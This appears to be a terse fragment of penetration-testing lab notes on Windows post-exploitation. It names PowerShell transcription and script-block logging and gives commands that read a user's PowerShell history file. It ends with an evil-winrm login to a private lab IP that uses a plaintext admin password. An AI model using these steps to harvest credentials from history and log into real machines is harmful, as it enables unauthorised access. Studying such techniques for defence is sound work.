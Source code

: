 powershell transcription - stored in home directories of user
powershell script block logging

Get-History
(Get-PSReadlineOption).HistorySavePath

evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"